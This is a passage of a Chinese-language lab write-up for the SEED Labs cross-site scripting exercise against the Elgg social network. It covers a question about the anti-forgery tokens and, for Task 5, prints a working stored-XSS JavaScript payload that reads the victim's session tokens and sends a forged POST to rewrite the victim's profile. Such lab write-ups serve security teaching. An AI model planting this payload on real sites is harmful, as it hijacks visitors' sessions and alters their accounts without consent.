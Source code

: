 `ts` 和 `token` 用来验证用户身份，获取它们形成完整的 GET 请求，达到欺骗服务器的目的。

> **Question 2**: If the Elgg application only provide the Editor mode for the "About Me" field, *i.e.*, you cannot switch to the Text mode, can you still launch a successful attack?

此时在 description 处无法实施攻击。但可以压行后填写在 briefdescription 处。

# Task 5: Modifying the Victim’s Profile

这个 Task 利用 js 实现 POST 方法。修改 Samy 的 profile 如图所示

```html
<script type="text/javascript">
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=samy%20is%20my%20hero&accesslevel[description]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

<img src="./../assets/post/images/79s6XwumyCoDMhN.png" alt="image-20210720174242188" style="zoom:67%;" />
